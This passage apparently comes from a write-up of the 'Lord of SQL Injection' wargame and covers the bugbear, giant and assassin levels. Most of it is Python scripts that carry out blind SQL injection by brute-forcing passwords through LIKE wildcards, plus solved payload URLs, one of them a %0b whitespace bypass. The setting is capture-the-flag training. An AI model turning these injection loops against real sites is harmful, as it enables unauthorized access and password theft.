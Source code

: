 ``` python
        HTTP.request("GET","/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
        if "Hello admin" in Result:
            Pw+=str(a)
            print "["+str(i)+"] Find : "+str(a)
            isFind=True
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?pw=735c2773](http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?pw=735c2773)

___

## 14. Giant
[http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0b](http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0b)

___

## 15. Assassin
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in "0123456789abcdefghijklmnopqrstuvwxyz_":
        Payload=Pw+str(a)+"%"
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=**secret**"}
        HTTP.request("GET","/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
        if "Hello " in Result:
            Pw+=str(a)
            print "["+str(i)+"] Find : "+str(a)
            isFind=True
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=832edd10](http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=832edd10)
